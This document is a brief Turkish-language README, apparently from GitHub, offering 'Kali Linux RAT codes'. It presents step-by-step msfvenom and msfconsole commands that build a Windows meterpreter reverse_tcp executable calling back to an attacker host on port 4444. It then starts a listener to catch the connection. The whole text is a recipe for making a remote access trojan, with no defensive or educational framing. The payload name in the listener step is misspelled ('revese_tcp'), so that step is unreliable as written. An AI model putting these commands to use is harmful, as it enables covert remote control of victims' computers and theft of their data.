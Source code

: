 # Kali Linux RAT Kodları
Buradaki kodu Kali Linux terminaline yazdığınızda kendi RAT'ınızı yapabilirsiniz.

Bir terminal açın

**msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -f exe > dosyaadı.exe**

**msfconsole**

**use exploit/multi/handler**

**set PAYLOAD windows/meterpreter/revese_tcp**

**set LHOST makineipsi**

**set LPORT 4444**

**run**
